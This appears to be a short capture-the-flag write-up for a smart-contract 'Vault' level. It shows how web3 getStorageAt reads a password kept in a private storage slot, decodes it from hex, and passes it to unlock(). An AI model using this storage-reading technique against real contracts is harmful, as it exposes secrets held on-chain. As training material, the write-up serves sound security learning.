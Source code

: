### Task 

>Unlock the vault to pass the level!

### Observations

This contract is locked unless function ```unlock(bytes32 _password)``` is called with the correct password.

The correct password is stored as a private bytes32 variable in the contract storage.

This does not mean it's inaccessible.

I know that ```password``` is the second variable therefore index 1 in storage elements.

### Steps 

Using web3 function ```getStorageAt()``` with (contract address, index) as parameters.

```password = web3.eth.getStorageAt(instance, 1)``` 

Or with error handling

```web3.eth.getStorageAt(instance, 1, function(error, result) {password = result})```

The password result = ```"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"```

HEX to ASCII outputs = ```A very strong secret password :)```

Now call ```unlock()``` function with the password.

```contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")```

Check contract is unlocked.

```contract.locked()``` now returns ```false```

